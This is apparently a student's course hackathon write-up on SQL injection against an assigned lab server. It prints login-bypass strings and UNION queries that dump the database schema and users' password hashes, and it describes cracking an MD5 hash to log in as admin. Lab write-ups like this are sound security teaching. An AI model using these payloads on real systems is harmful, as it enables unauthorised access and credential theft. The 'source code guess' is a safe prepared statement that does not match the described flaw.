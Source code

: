 
# WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Ruthvik Suvarnakanti

**Email**: suvarnrk@mail.uc.edu

![Ruthvik Suvarnakanti](images/headshot.jpg){width=150px height=150px}


## Hackathon 2: SQL Injection Attacks

**Overview**: 

Link to the repository:
[https://github.com/suvarnrk/waph-suvarnrk/blob/main/hackathon2/README.md](https://github.com/suvarnrk/waph-suvarnrk/blob/main/hackathon2/README.md)

\pagebreak

## Level 0

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php](http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php)

attacking script :
```
Username: suvarnrk' or 1=1; #
```

![Level 0](images/lvl0.png)

\pagebreak

### Level 1

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1)

When I attempted to inject the code at this level using single quotes at first, a syntax error appeared.  Afterwards, double quotes were attempted, which caused the SQL Injection to occur.

attacking SQL script is passed in the username
```
Username: suvarnrk" or "1"="1" limit 1; #
```

Source code Guess :
```$input = $_POST['input']; // Assuming input is coming from a POST request, adjust as necessary

// Prepare the SQL query with placeholders
$sql = "SELECT * FROM XXX WHERE YYY = ? AND zzzz = md5(?)";

// Prepare the statement
if ($stmt = $mysqli->prepare($sql)) {
    // Bind parameters
    $stmt->bind_param("ss", $input, $input_md5);

    // Set parameters and execute
    $input_md5 = $input; // Assuming you want to hash the input for zzzz
    $stmt->execute();

    // Get result
    $result = $stmt->get_result();

    // Check if there is exactly one row returned
    if ($result->num_rows == 1) {
        return TRUE;
    } else {
        return FALSE;
    }

    // Close statement
    $stmt->close();
} else {
    // Handle error if the prepare statement fails
    // For debugging purposes, you might want to log or display the error
    echo "Error: " . $mysqli->error;
}
```


![Level 1](images/lvl1.png)

\pagebreak

## Level 2


URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2/](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2/)

### A) Detecting SQLi Vulnerabilities
I tried many times to take advantage of the login.php file's SQL injection vulnerabilities, but I was unable to do so. Upon closer examination of the product.php page, I saw that the ID number is sent as a route variable, which might potentially lead to a SQL injection attack. After more investigation, it was discovered that two product entries were linked to distinct IDs. Utilizing SQL UNION may allow for the manipulation of the existing query structure to produce results that might be exploited.


![SQL Vulnerability Check](images/lvl2A.png)

\pagebreak

### B) Exploiting SQLi to Access Data

### i. Identify the Number of Columns

Upon experimenting with different values using SQL UNION, I discovered that the SQL query returns three columns.

![SQL Union to Identify the number of columns](images/lvl2Bi.png)
 
![Product.php query is fetching 3 values](images/lvl2Bib.png)


### ii. Display Your Information

I utilized the following script to showcase my information.
```
id=1 Union select "suvarnrk","Ruthvik%20Suvarnakanti","WAPH-Hackathon"
```
![Personal Info on product.php page](images/lvl2Bii.png)

### iii. Display the Database Schema

I extracted the database schema from information_schema using the script below.

```
id: 1 union select "Hacked by Ruthvik", table_name, column_name from information_schema.columns
```
![Database Schema](images/lvl2Ci.png)

### iv. Display Login Credentials

I discovered that the login information is kept in a database named login, which includes the fields loginname and password, from the list of DBshchema that was obtained.

```
id: 1 union select "Hacked by Ruthvik", table_name, column_name from information_schema.columns where table_name="login"
```

![login table](images/lvl2Cii.png)

To obtain the login credentials, I utilized the below query.
```
id: 1 union select "Hacked by Ruthvik", loginname, password from login 
```
![login credentials](images/lvl2Ciii.png)

I was able to restore the hashed password to its original value by using an MD5 conversion tool.

![Original password of hashed value](images/md5.png)


### C. login with stolen passwords/
I was able to successfully get in to login.php with the admin credentials by utilizing the list of passwords that I had taken from the login table.


[logged in with stolen creds](images/lvl2-last.png)

*********************************END************************************



